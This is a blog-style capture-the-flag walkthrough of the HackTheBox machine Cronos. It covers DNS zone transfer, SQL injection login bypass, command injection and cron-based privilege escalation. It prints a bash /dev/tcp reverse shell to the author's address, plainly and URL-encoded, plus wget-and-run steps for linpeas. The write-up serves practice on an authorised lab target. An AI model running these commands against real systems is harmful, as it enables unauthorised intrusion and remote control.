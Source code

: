 ```yaml
---
title: Cronos Writeup - HackTheBox -
date: "2023-03-23T12:00:00.000Z"
template: "post"
draft: false
slug: "cronos-writeup"
category: "Security"
tags:
  - "Security"
  - "HackTheBox"
description: "Writeups of Cronos machine in HackTheBox"
socialImage: "/media/cronos-writesup/cronos.png"
---
```


![cronos](/media/cronos-writesup/cronos.png)

This is a writeup of [Cronos](https://app.hackthebox.com/machines/Cronos) machine, which has a `medium` level.

1. [Enumeration](#enumeration)
2. [User Flag](#user-flag)
3. [Priviledge Escalation](#priviledge-escalation)

## Enumeration
`nmap` found 3 open ports, 22(SSH), 53(DNS), 80(HTTP).

![nmap](/media/cronos-writesup/nmap.png)

When I go to `10.10.10.13` in browser, I see the apache default page.

![apache](/media/cronos-writesup/apache_80.png)

I tries to check if there are any pages with `gobuster`, but doesn't find anything.

![gobuster_10101013](/media/cronos-writesup/gobuster_10101013.png)

It might be the case that I have to resolve ip with a domain.
`nslookup` finds `ns1.cronos.htb` domain.

![nslookup](/media/cronos-writesup/nslookup.png)

I learned DNS Zone Transfers in [Footprint module](https://academy.hackthebox.com/module/112/section/1069).
Since port `53` is opened, I try to find other domains. There is additionally `admin.cronos.htb` domain.

![zone_transfer](/media/cronos-writesup/zone_transfer.png)

Now I set these domains in `/etc/hosts` file to resolve these domains.
```
10.10.10.13 cronos.htb admin.cronos.htb ns1.cronos.htb
```

When I go to `cronos.htb` page, there is a webpage. However, there is nothing special.

![cronos.htb](/media/cronos-writesup/cronos_htb.png)

`gobuster` doesn't find any pages, either. 

![gobuster_cronos_htb](/media/cronos-writesup/gobuster_cronos_htb.png)

Now it's time to go to `admin.cronos.htb` page. There is a login page.
It can be the initial foothold.

![admin.cronos.htb](/media/cronos-writesup/admin_cronos_htb.png)

## User Flag
As the first attempt, I tries to do a basic sql injection.

![sql_injection](/media/cronos-writesup/sql_injection.png)

Surprisingly, it works. there is a page where I can execute `traceroute` command. 
But, when I click the `execute!` button, it doesn't show anything.

![admin_page](/media/cronos-writesup/admin_page.png)

Now it's time to use `Burpsuite`. I try to change the `command` parameter and make `host` parameter empty.

![burpsuite_ls](/media/cronos-writesup/burpsuite_ls.png)

It returns a file list. So, this endpoint has a `command injection vulnerability` so that I can execute shell commands by changing the request parameter.

![burpsuite_ls_result](/media/cronos-writesup/burpsuite_ls_result.png)

It's time to do a reverse shell. I use the command below. `10.10.16.2` is my machine ip address.
```
/bin/bash -i >& /dev/tcp/10.10.16.2/1234 0>&1
```

In order to execute the reverse shell command, the command needs to be url-encoded like this below.
```
%2Fbin%2Fbash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.16.2%2F1234%200%3E%261%0A
```

![burpsuite_reverse_shell](/media/cronos-writesup/burpsuite_reverse_shell.png)

I get the reverse shell!

![reverse_shell](/media/cronos-writesup/reverse_shell.png)

The shell is without TTY, so I spawn TTY shell. The detail about `Shell spawning` is written [here](https://rcenetsec.com/shell-spawning/).

![spawn_tty](/media/cronos-writesup/spawn_tty.png)

I'm a `www-data` user, but can read `user.txt`.

![user_txt](/media/cronos-writesup/user_txt.png)


## Priviledge Escalation
To find any hints for priviledge escalation, I use `linpeas.sh`.
I run a python server in the directory where `linpeas.sh` exists in my machine.
```
python3 -m http.server 80
```

Then, download and execute it in the target machine.
```
wget http://10.10.16.2/linpeas.sh
chmod +x linpeas.sh
bash linpeas.sh
```

`linpeas.sh` finds a cron job that executes `artisan` file with the root user.
This cron is executed every minute.

![crontab](/media/cronos-writesup/crontab.png)

`artisan` file is a php script.

![file_artisan](/media/cronos-writesup/file_artisan.png)

So, by replacing `artisan` file with a php reverse shell, I can get a root shell.
I download [php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) in my machine and change `$ip` into my machine and `$port` into `9999`.
Now download the php reverse shell in the target machine and rename it into `artisan`.

![download_artisan](/media/cronos-writesup/download_artisan.png)

When the cron executes `artisan` file, I get a root shell!

![get_root](/media/cronos-writesup/get_root.png)

